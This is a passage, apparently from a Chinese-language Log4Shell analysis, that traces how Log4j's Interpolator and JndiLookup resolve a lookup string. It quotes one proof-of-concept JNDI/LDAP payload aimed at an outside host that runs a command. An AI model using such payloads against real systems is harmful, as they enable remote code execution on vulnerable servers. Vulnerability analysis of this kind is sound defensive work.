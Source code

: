* **Interpolator.lookup**

Interpolator实际是一个实现Lookup功能的代理类，该类在成员变量strLookupMap中保存着各类Lookup功能的真正实现类。Interpolator对 上一步提取出的内容解析后，从strLookupMap获得Lookup功能实现类，并调用实现类的lookup()方法。

例如对poc例子中的jndi:ldap://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==解析后得到jndi的Lookup功能实现类为JndiLookup，并调用JndiLookup.lookup()方法。
![image-20230714094607300](img/image-20230714094607300.png)

* **JndiLookup.lookup**

`JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法

![image-20230714095658156](img/image-20230714095658156.png)

获取JNDI对象后，调用该对象上的`toString()`方法，最终返回该字符串。
